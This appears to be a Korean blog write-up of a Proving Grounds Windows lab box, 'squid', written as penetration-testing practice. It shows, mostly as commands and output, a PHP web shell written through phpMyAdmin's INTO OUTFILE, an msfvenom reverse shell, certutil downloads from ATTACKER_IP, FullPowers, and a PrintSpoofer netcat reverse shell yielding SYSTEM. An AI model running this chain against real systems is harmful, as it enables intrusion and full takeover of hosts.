---
layout: post
title:  "[PG][Windows] squid"
date:   2026-11-08 12:24:00 +09:00
featured: /assets/images/oscp-pg/windows/squid/image.png
categories: PG Windows
---## 정보 수집
포트 스캔을 수행하였음.
```
└─$ ports=$(nmap -p- --min-rate=1000 -T4 -Pn 192.168.245.189 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
└─$ nmap 192.168.245.189 -Pn -n --min-rate 3000 --open -oN scan
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-12 23:43 EDT
Nmap scan report for 192.168.245.189
Host is up (0.13s latency).
Not shown: 996 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
445/tcp  open  microsoft-ds
3128/tcp open  squid-http

Nmap done: 1 IP address (1 host up) scanned in 1.15 seconds
```

3128 포트에 접근 시 ERROR페이지가 보이며 squid 프록시를 사용하는 것을 확인. [https://www.squid-cache.org]


구글 검색하면 HackTricks사이트가 보임.


HackTricks에서는 SPOSE 스캐너로 내부 포트 확인이 가능하다고함.


위에 있는 gihtub 주소를 통해 다운로드.
```
└─$ git clone https://github.com/aancw/spose
Cloning into 'spose'...
remote: Enumerating objects: 34, done.
remote: Counting objects: 100% (23/23), done.
remote: Compressing objects: 100% (16/16), done.
remote: Total 34 (delta 11), reused 17 (delta 6), pack-reused 11 (from 1)
Receiving objects: 100% (34/34), 7.89 KiB | 1.13 MiB/s, done.
Resolving deltas: 100% (11/11), done.
```

내부 포트 스캔 시 8080, 3306포트가 오픈된 것을 확인함.
```
└─$ python spose.py --proxy http://192.168.245.189:3128 --target 192.168.245.189
Scanning default common ports
Using proxy address http://192.168.245.189:3128
192.168.245.189:3306 seems OPEN
192.168.245.189:8080 seems OPEN
```

poxyproxy툴에서 대상 시스템 ip및 port를 설정한 뒤 활성화. 


8080포트 접근 시 wampserver의 디폴트 페이지가 확인됌.


하단에 보면 Tools 항목에 phpmyadmin페이지에 접근할 수 있는 링크가 보임.


비밀번호 없이 root계정만 입력하면 로그인이 성공함. 



## 초기 침투

phpmyamin 페이지의 sql메뉴에서 쿼리를 실행이 가능함. phpinfo에서 확인한 웹 루트 경로에 webshell.php를 생성.
```
select "<?php echo shell_exec($_GET['c']);?>" info OUTFILE 'C:/wamp/www/webshell.php'
```



생성한 웹쉘경로에 명령어를 삽입한 뒤 요청하면 명령어가 실행됨. nt authority 관리자 그룹의 계정을 확인.


msfvenom 도구를 사용하여 리버스쉘 페이로드 제작.
```
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=1234 -f exe -o shell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe
```

certutil.exe에 urlcache옵션을 주어 공격자PC로 부터 shell.exe를 다운로드한뒤 실행.
```
http://192.168.245.189:8080/webshell.php&c=certutil.exe -urlcache -f http://ATTACKER_IP/shell.exe shell.exe
http://192.168.245.189:8080/webshell.php&c=shell.exe
```


netcat으로 열어둔 리스너를 통해 쉘을 획득.


## 권한 상승

현재의 local service 계정의 권한으로는 관리자 권한을 얻을수 없었음.
```
C:\wamp\www>whoami        
whoami
nt authority\local service

C:\wamp\www>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State   
============================= ============================== ========
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled 
SeCreateGlobalPrivilege       Create global objects          Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set Disabled
```

인터넷에 검색해보니 FullPowers툴을 이용하여 LOCAL SERVICE 모든 권한을 획득할 수 있는것을 확인함.
※ 작업 스케줄러 서비스 를 통해 예약 작업을 생성 하면 해당 사용자 계정의 기본 권한 (SeImpersonate 권한 제외)을 모두 갖게 됨.


이전 페이지에서는 빌드 전의 툴이기 때문에 빌드되어있는 exe 파일을 github에서 찾아서 다운로드.
```
└─$ wget https://github.com/puckiestyle/pentest/raw/refs/heads/master/FullPowers.exe
```

그 후 공격자 서버에서 FullPowers.exe를 다운 받은뒤 실행.
```
C:\wamp\www>certutil.exe -urlcache -f http://ATTACKER_IP/FullPowers.exe FullPowers.exe
certutil.exe -urlcache -f http://ATTACKER_IP/FullPowers.exe FullPowers.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\wamp\www>FullPowers.exe
FullPowers.exe
[+] Started dummy thread with id 1728
[+] Successfully created scheduled task.
[+] Got new token! Privilege count: 7
[+] CreateProcessAsUser() OK
Microsoft Windows [Version 10.0.17763.2300]
(c) 2018 Microsoft Corporation. All rights reserved.
```

권한 확인 시 기본권한이 모두 부여된 것을 확인.
```
C:\Windows\system32>whoami /priv
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State  
============================= ========================================= =======
SeAssignPrimaryTokenPrivilege Replace a process level token             Enabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Enabled
SeAuditPrivilege              Generate security audits                  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeCreateGlobalPrivilege       Create global objects                     Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Enabled
```

SeImpersonatePrivilege 권한이 부여되어 PrintSpoofer로 권한 상승 시도.
[https://support.plesk.com/hc/en-us/articles/12376963995287-Microsoft-Windows-SeImpersonatePrivilege-Local-Privilege-Escalation]

```
C:\wamp\www>certutil.exe -urlcache -f http://ATTACKER_IP/PrintSpoofer64.exe PrintSpoofer64.exe
certutil.exe -urlcache -f http://ATTACKER_IP/PrintSpoofer64.exe PrintSpoofer64.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\wamp\www>certutil.exe -urlcache -f http://ATTACKER_IP/nc64.exe nc64.exe
certutil.exe -urlcache -f http://ATTACKER_IP/nc64.exe nc64.exe
****  Online  ****
CertUtil: -URLCache command completed successfully.

C:\wamp\www>PrintSpoofer64.exe -c "nc64.exe ATTACKER_IP 7777 -e cmd"
PrintSpoofer64.exe -c "nc64.exe ATTACKER_IP 7777 -e cmd"
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[+] CreateProcessAsUser() OK
```

netcat으로 열어둔 리스너를 통해 관리자 쉘을 획득.

